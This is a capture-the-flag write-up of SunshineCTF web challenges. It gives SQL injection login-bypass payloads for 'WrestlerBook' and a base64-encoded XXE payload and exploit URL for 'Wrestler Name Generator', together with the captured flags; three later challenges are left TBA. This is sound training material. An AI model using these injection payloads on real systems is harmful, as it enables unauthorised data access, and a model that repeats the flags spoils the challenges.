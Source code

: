# Web Challenge
Lots of wrestlers. nice.
<br>
<br>
## 100 points: WrestlerBook
```
WrestlerBook is the social network for wrestlers, by wrestlers. WrestlerBook is exclusively for wrestlers, so if you didn't get an invite don't even bother trying to view our profiles.
```
<a href="http://archive.sunshinectf.org:19006">http://archive.sunshinectf.org:19006</a>
```
Author: dmaria
```
Opening the website:

![](/Images/2019/SunshineCTF/WrestlerBook.PNG)

It's a simple login screen, and being a basic web challenge, it's probably SQLi (SQL injection). First thing I do is try to login using '`' or '1'='1`' as both the username and the password. It works, but all you get is this:

![](/Images/2019/SunshineCTF/hulkhogie.PNG)

Looks like its going to be a bit more work than I thought. However, looking at the user info, there appears to be a flag section that's just empty for this user. Perhaps '`flag`' is a column in the database. I used the LIKE operator to test for an entry that contains '`sun`'. My payload therefore becomes:

username: `' or flag LIKE '%sun%' or '1'='2`

password: `' or '1'='2`

The `'1'='2` part of each section allows me to incorporate the ending quote while not afecting the query, since '1' is never equal to '2'. My payload worked:

<img src="https://cdn.discordapp.com/attachments/532350033241309226/563510097884741642/unknown.png">

flag: `sun{ju57_4n07h3r_5ql1_ch4ll}`
<br>
<br>
<br>
## 150 points: Wrestler Name Generator
```
Even better than the Wu-Tang name generator, legend has it that Hulk Hogan used this app to get his name.
```
<a href='http://archive.sunshinectf.org:19007'>http://archive.sunshinectf.org:19007</a>
```
Author: dmaria
```
Opening the website, we're greeted with this colorful page:

<img src="https://cdn.discordapp.com/attachments/532350033241309226/563510519831461909/unknown.png">

Viewing the page's source code gets us this gem of a script:
```
<script>
document.getElementById("button").onclick = function() {
  var firstName = document.getElementById("firstName").value;
  var lastName = document.getElementById("lastName").value;
  var input = btoa("<?xml version='1.0' encoding='UTF-8'?><input><firstName>" + firstName + "</firstName><lastName>" + lastName+ "</lastName></input>");
  window.location.href = "/generate.php?input="+encodeURIComponent(input);
};
</script>
```
Searching up XML exploitations, it appears as though this challenge will be XXE, or XML External Entity. But what are we trying to do? I pressed the "Generate" button with empty fields and got this page:

<img src="https://cdn.discordapp.com/attachments/532350033241309226/563511596836585485/unknown.png">

Opening the sourcecode, we see the following comment:

<img src="https://cdn.discordapp.com/attachments/532350033241309226/563511441164992533/unknown.png">

It's clear that we need to access this from server-side and direct the output to client-side. We can do this by loading in an external entity into any of the fields, so that when the website parses the `<lastname>` tag and puts it onto the page, we see the external entity. After searching, I got the following xml:
```
<?xml version='1.0' encoding='utf-8'?><!DOCTYPE lastNAME [<!ENTITY test SYSTEM "http://127.0.0.1/generate.php?">]><input><firstName></firstName><lastName>&test;</lastName></input>
```

This loads the page from server side and stores it into an entity called 'test'. `&test;` calls the value of the entity as the value between the lastName tags, so we should see something when we go to the website with that XML sent as the payload. How do we send it? Luckily, the url has a parameter '`input`' that is set equal to a base64 string. Returning to the first page, we see that the function `btoa` encodes its argument into base64, so we need to convert our exploit to base64:
```
PD94bWwgdmVyc2lvbj0nMS4wJyBlbmNvZGluZz0ndXRmLTgnPz48IURPQ1RZUEUgbGFzdE5BTUUgWzwhRU5USVRZIHRlc3QgU1lTVEVNICJodHRwOi8vMTI3LjAuMC4xL2dlbmVyYXRlLnBocD8iPl0+PGlucHV0PjxmaXJzdE5hbWU+PC9maXJzdE5hbWU+PGxhc3ROYW1lPiZ0ZXN0OzwvbGFzdE5hbWU+PC9pbnB1dD4=
```
Finally, URLencoding it gets us:
```
PD94bWwgdmVyc2lvbj0nMS4wJyBlbmNvZGluZz0ndXRmLTgnPz48IURPQ1RZUEUgbGFzdE5BTUUgWzwhRU5USVRZIHRlc3QgU1lTVEVNICJodHRwOi8vMTI3LjAuMC4xL2dlbmVyYXRlLnBocD8iPl0%2BPGlucHV0PjxmaXJzdE5hbWU%2BPC9maXJzdE5hbWU%2BPGxhc3ROYW1lPiZ0ZXN0OzwvbGFzdE5hbWU%2BPC9pbnB1dD4%3D
```
Going to the site (post-competition url, during competition domain was `ng.sunshinectf.org/`):
```
http://archive.sunshinectf.org:19007/generate.php?input=PD94bWwgdmVyc2lvbj0nMS4wJyBlbmNvZGluZz0ndXRmLTgnPz48IURPQ1RZUEUgbGFzdE5BTUUgWzwhRU5USVRZIHRlc3QgU1lTVEVNICJodHRwOi8vMTI3LjAuMC4xL2dlbmVyYXRlLnBocD8iPl0%2BPGlucHV0PjxmaXJzdE5hbWU%2BPC9maXJzdE5hbWU%2BPGxhc3ROYW1lPiZ0ZXN0OzwvbGFzdE5hbWU%2BPC9pbnB1dD4%3D
```
This nets us the flag:

<img src="https://cdn.discordapp.com/attachments/561665413918883840/563514724642193408/unknown.png">

flag: `sun{1_l0v3_hulk_7h3_3x73rn4l_3n717y_h064n}`
<br>
<br>
<br>
## 150 points: Portfolio
```
Check out my development portfolio! I'm just getting started, so don't be too mean :(
```
<a href='http://archive.sunshinectf.org:19009'>http://archive.sunshinectf.org:19009</a>
```
Author: dmaria
```
TBA
<br>
<br>
<br>
## 300 points: Enter the Polygon 1
```
These photos are The Best There Is, The Best There Was and The Best There Ever Will Be. Give me your photos I'll EXAMINE if they meet the bar.
```
<a href='http://img.sunshinectf.org'>http://img.sunshinectf.org</a>
```
Author: Astor
```
TBA
<br>
<br>
<br>
## 300 points: Enter the Polygon 2
TBA
